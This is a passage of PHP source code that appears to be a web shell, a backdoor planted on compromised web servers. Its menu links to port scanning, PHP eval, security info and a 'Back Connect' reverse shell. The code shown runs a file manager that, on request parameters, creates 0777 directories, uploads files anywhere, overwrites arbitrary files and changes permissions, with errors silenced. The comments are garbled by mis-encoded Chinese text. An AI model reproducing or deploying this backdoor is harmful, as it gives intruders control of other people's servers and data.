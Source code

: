 			&lt;a href="javascript:g('portscan');"&gt;Port Scan&lt;/a&gt; | 
			&lt;a href="javascript:g('secinfo');"&gt;Security information&lt;/a&gt; | 
			&lt;a href="javascript:g('eval');"&gt;Eval PHP Code&lt;/a&gt;
			&lt;?php if (!IS_WIN) {?&gt; | &lt;a href="javascript:g('backconnect');"&gt;Back Connect&lt;/a&gt;&lt;?php }?&gt;
		&lt;/td&gt;
	&lt;/tr&gt;
&lt;/table&gt;
&lt;table width="100%" border="0" cellpadding="15" cellspacing="0"&gt;&lt;tr&gt;&lt;td&gt;
&lt;?php
$errmsg && m($errmsg);

// »ñÈ¡µ±Ç°Â·¾¶
if (!$dir) {
	$dir = $_SERVER["DOCUMENT_ROOT"] ? $_SERVER["DOCUMENT_ROOT"] : '.';
}
$nowpath = getPath(SA_ROOT, $dir);
if (substr($dir, -1) != '/') {
	$dir = $dir.'/';
}

if ($action == 'file') {

	// ÅÐ¶Ï¶ÁÐ´Çé¿ö
	$dir_writeable = @is_writable($nowpath) ? 'Writable' : 'Non-writable';

	// ´´½¨Ä¿Â¼
	if ($newdirname) {
		$mkdirs = $nowpath.$newdirname;
		if (file_exists($mkdirs)) {
			m('Directory has already existed');
		} else {
			m('Directory created '.(@mkdir($mkdirs,0777) ? 'success' : 'failed'));
			@chmod($mkdirs,0777);
		}
	}

	// ÉÏ´«ÎÄ¼þ
	elseif ($doupfile) {
		m('File upload '.(@copy($_FILES['uploadfile']['tmp_name'],$uploaddir.'/'.$_FILES['uploadfile']['name']) ? 'success' : 'failed'));
	}

	// ±à¼­ÎÄ¼þ
	elseif ($editfilename && $filecontent) {
		$fp = @fopen($editfilename,'w');
		m('Save file '.(@fwrite($fp,$filecontent) ? 'success' : 'failed'));
		@fclose($fp);
	}

	// ±à¼­ÎÄ¼þÊôÐÔ
	elseif ($pfile && $newperm) {
		if (!file_exists($pfile)) {
			m('The original file does not exist');
		} else {
			$newperm = base_convert($newperm,8,10);
			m('Modify file attributes '.(@chmod($pfile,$newperm) ? 'success' : 'failed'));
		}
	}
